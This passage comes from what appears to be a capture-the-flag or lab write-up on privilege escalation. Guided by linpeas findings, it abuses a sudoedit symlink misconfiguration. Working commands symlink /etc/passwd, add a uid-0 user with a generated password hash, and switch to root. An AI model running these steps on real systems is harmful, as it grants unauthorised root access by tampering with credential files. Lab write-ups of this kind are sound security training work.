 ![[Pasted image 20230205172814.png]]

## Privilege Escalation
We uploaded and executed linpeas and we are given a few results that could lead to privilege escalation.

![[Pasted image 20230205220438.png]]

The most probable result would be the one below as running a local exploit for privilege escalation is not offsec...

![[Pasted image 20230205220406.png]]

The pattern for the above [sudoedit](https://linux.die.net/man/8/sudoedit) permissions looks similar to the one found [here](https://www.exploit-db.com/exploits/37710). In our version to exploit, we will need to :

1. create a subdirectory within the home folder and the file has to be named `recycler.ser`
2. create a symbolic link to the a new file named `recycler.ser` in the new folder pointing to the file that requires privileged access.
3. run `sudoedit /home/directory/recycler.ser` with super user privilege.

```bash
#generate /etc/passwd username and password hash.
openssl passwd -1 -salt cyberches pwnpwn

#carry out sudoedit exploit to edit /etc/passwd file
mkdir /home/samantha/privesc
ln -s /etc/passwd /home/samantha/privesc/recycler.ser
sudoedit /home/samantha/privesc/recycler.ser
# in VIM G+A then add the below
# cyberches:$1$cyberche$8SlOq4I5fdCWAmXseBSIU0:0:0:/root:/bin/bash
# afterwards esc + enter then ":wq" enter
```

After adding the credentials to the last line of `/etc/passwd`, we will do a `su cyberches`, enter the credentials and we got root!

![[Pasted image 20230205230316.png]]

